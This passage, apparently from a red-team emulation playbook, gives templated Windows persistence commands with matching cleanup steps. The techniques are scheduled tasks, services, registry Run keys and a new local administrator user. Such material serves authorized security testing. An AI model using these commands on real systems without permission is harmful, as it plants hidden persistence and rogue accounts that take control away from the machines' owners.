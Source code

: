 ```
CMD> schtasks /Create /SC DAILY /TN "{{ taskname }}" /TR "{{ command }}" /ST 09:00
```

### Cleanup

```
CMD> schtasks /delete /tn "{{ taskname }}" /f
```

## Windows Service Persistence - via sc.exe

Use built-in sc.exe to persist

### Guidance

```
CMD> sc create {{ service_name }} binPath= "{{ command }}"
```

### Cleanup

```
CMD> sc delete {{ service_name }}
```

## Registry Run Key Persistence - via reg.exe

Use built-in reg.exe to persist via the Registry by setting a command to be run on user login

### Guidance

```
CMD> reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "{{ key_name }}" /t REG_SZ /F /D "{{ command }}"
```

### Cleanup

```
CMD> reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /F /V "{{ key_name }}"
```

## New user persistence - via net.exe

Use built-in net.exe to persist by creating a new local administrator user

### Guidance

```
CMD> net user /add {{ username }} {{ password }}
CMD> net localgroup {{ group_name }} {{ username }} /add
```

### Cleanup
